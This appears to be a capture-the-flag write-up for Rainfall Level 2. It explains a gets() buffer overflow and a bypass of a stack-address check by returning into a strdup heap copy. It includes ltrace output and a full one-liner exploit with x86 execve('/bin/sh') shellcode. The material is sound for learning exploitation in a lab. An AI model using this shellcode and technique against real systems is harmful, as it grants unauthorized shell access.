 # Rainfall - Level 2

## Executable Analyse

As in the previous exercise, there are two functions: `p` called by the `main` and using the buffer overflow vulnerable function `gets`.  

The difficulty here is the following condition `if ((unaff_retaddr & 0xb0000000) == 0xb0000000)` which checks if the EIP address starts with `0xb` (meaning it's on the stack).  

## Writing shellcode on heap

Like in previous level we found the buffer overflow at position 80.

The `ltrace` command gives us the return and input addresses of libc function :  
```shell
$> ltrace ./level2

gets(0xbffff70c, 0, 0, 0xb7e5ec73, 0x80482b5)                                             = 0xbffff70c
puts("")                                                                                  = 1
strdup("")                                                                                = 0x0804a008
```


Our strategy attack is to write a shellcode (execv("/bin/sh")) in buffer passing to gets() function.  
Using libc execv() addr will overflow with 0xb00.. address and let program fall in the exit condition.
But in order to bypass the 0xb0 condition, we need to rewrite eip with the strdup return addr.


```shell
(python -c "print  + b'\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' + b'a' * (80 - 45) + b'\x08\xa0\x04\x08'" ; cat) | ./level2
```

x86 Shellcode found on : https://beta.hackndo.com/buffer-overflow/